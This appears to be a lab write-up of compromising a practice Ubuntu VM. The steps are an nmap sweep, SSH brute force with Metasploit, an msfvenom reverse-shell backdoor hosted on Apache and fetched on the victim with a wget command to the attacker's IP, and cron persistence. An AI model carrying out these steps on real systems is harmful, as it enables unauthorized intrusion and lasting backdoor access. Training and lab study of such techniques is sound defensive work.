 ```yaml
---
description: >-
  A series of programs and commands were used in order to fully infect the
  Target
---
```


# How this VM was Compromised

For this attack strategy, the following was accomplished:

1. Use Nmap scans to determine open ports
2. Create a username and password list to run against the Victim
3. Use Metasploit to bruteforce with ssh
4. Remote SSH into the Victim with the acquired username and password
5. Run enumeration commands to find/steal data and set up a new sudoers user
6. Download the backdoor and stage on the system
7. Setup persistence of the backdoor with Cron

## **Enumeration Commands**

The first step when "infecting" the victim is to perform a port scan to locate IP addresses on the network. The command used is ^/nmap -p 22 -open 184.171.155.0/24

* \-p specifies the port, which is 22
* \-open searches for all ports that are open, as opposed to closed
* the IP address is that of the network but not just specific IPs

<figure><img src="../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

Because we know what our Victim's IP address already is, we know that we will run our more advanced scans against this specific IP address. Still, it is a very useful scan and proves that port 22 is open, which will be necessary later for SSH.

We brute force with a generated password list which was added by the attacker. Metasploit will be used as the way to brute force with SSH. The specific script that executes is the scanner/ssh/ssh\_login, which will run the password list against the specific IP we got from the Nmap port scan.

<figure><img src="../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

As you can see, the command was successful in using brute force with the generated password list. The password list just has common passwords, highlighting how often strong passwords are overlooked. &#x20;

### **Process of Creating the Backdoor on HostUbuntu**

A backdoor will be created and then hosted on an apache web page. This way, when the attacker uses remote SSH to gain access to the Victim, it will be easy to navigate to the apache webpage and download the backdoor. This is accomplished through the use of msfvenom and Metasploit.&#x20;

First, you will need to create the backdoor with ^/msfvenom. This is a command line tool that generates payloads that can be used in many different locations as well as has a variety of output options.

* \-p specifies the payload, which will be used with Metasploit
* LHOST is the IP address of the host
* LPORT can be any port
* \-f specifies as an executable
* \-o will be the name of the file

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

The backdoor should be staged somewhere, so it is moved into the /var/www/html/ file location. It also has to have permissions updated, with the command ^/chmod +x windowsbackdoor.exe Then, once the apache2 service is loaded, the backdoor will also be ready.

<figure><img src="../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

For this exploitation, multi/handler will be used. This is a stub that handles exploits launched outside of the framework. We will be using the payload specifically for Linux and x86 system types. There are just about options for every type of known OS, which is Metasploit is such a popular tool.&#x20;

<figure><img src="../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

Just as with the SSH Brute Force with Metasploit, certain inputs will have to be configured before starting the exploit

* LHOST is the IP of the HostVM, not Victim
* LPORT can be any random port that is open

This will begin the reverse\_tcp shell and wait until a victim downloads the backdoor or it is installed manually.

<figure><img src="../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

### **Process of Downloading Backdoor on VictimUbuntu**

Once the backdoor is ready, we can begin to stage it in the Victim's network. With the credentials taken from the numerous scans, you can ssh login.

<figure><img src="../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

Use the wget command to manually download the backdoor on the Victim ^/wget http://184.171.155.46/windowsbackdoor.exe

<figure><img src="../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

The last step with this specific backdoor is to stage it in the /usr/local/bin with ^/mv windowsbackdoor.exe /usr/local/bin

<figure><img src="../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

Once the backdoor is in place, the last step regarding persistence is to set up the crontab. This way, the backdoor will constantly be downloaded to the Victims network at a specific interval, set by the attacker. The first time you use the command ^/crontab -e/, you will be required to select an editor. This crontab is located in /var/spool/cron.

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Then, this is one place to store your cron jobs. There is also a crontab known as system-wide and is in a different file location than the normal crontab. In this case, the attacker set up cron jobs in both locations. The second location for crontab is in /etc/crontab.

<figure><img src="../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

It is required for cron to be reset before any scheduling jobs can begin. As for the actual crontab syntax, it is quite basic. First, you enter schedule, which is a combination of

* Minutes
* Hours
* Days of the Month
* Months
* Days of the Week

These are represented by \* when the value is 0. For example, 30 17 \* \* 2 will run a command every Tuesday at 5:30 PM

The second half of the syntax is the actual command to run. It can be quite a complex command or something simple like a wget.

<figure><img src="../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

**All of the aspects that were added to the VM were done so during the process of remote SSH.**

